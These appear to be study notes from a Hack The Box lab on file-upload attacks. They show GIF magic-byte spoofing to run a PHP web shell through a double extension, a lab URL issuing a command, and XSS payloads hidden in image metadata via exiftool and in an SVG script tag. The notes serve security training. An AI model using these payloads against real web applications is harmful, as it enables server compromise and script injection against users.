 #### Add `GIF8` before PHP code in Burp to imitate a GIF image
![[Pasted image 20230206110112.png]]
Keep file extension as PHP

#### Visit webpage
![[Pasted image 20230206110203.png]]
*Note: We see that the command output starts with GIF8 , as this was the first line in our PHP script to imitate the GIF magic bytes, and is now outputted as a plaintext before our PHP code is executed.*

***LAB Notes:*
- Used double extensions w/ GIF8
```url
http://68.183.45.43:30516/profile_images/shell.jpg.phar?cmd=id
```


## Limited File Uploads

### XSS
Can be used when a web application allows us to upload `HTML` files

#### Including an XSS payload in one of the Metadata parameters that accept raw text, like the `Comment` or `Artist` parameters
```Shell
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```

```Shell
exiftool HTB.jpg

...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```
We can see that the `Comment` parameter was updated to our XSS payload. When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack. If we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.

#### Modifying XML data of SVG images to include an XSS payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
```
Written to `HTB.svg` in a file, which you upload. Once we upload the image to the web application, the XSS payload will be triggered whenever the image is displayed.
